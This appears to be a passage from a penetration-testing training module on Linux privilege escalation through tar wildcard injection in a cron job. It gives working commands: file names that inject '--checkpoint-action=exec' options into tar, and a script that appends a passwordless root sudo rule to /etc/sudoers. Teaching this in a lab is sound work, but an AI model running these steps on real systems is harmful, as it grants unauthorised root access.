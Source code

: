 An example of how wildcards can be abused for privilege escalation is the `tar` command, a common program for creating/extracting archives. If we look at the [man page](http://man7.org/linux/man-pages/man1/tar.1.html) for the `tar` command, we see the following:

Wildcard Abuse

```shell-session
htb_student@NIX02:~$ man tar

<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```

The `--checkpoint-action` option permits an `EXEC` action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.) By creating files with these names, when the wildcard is specified, `--checkpoint=1` and `--checkpoint-action=exec=sh root.sh` is passed to `tar` as command-line options. Let's see this in practice.

Consider the following cron job, which is set up to back up the `/home/htb-student` directory's contents and create a compressed archive within `/home/htb-student`. The cron job is set to run every minute, so it is a good candidate for privilege escalation.

Wildcard Abuse

```shell-session
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

We can leverage the wild card in the cron job to write out the necessary commands as file names with the above in mind. When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify.

Wildcard Abuse

```shell-session
htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" > --checkpoint=1
```

We can check and see that the necessary files were created.

Wildcard Abuse

```shell-session
htb-student@NIX02:~$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
```
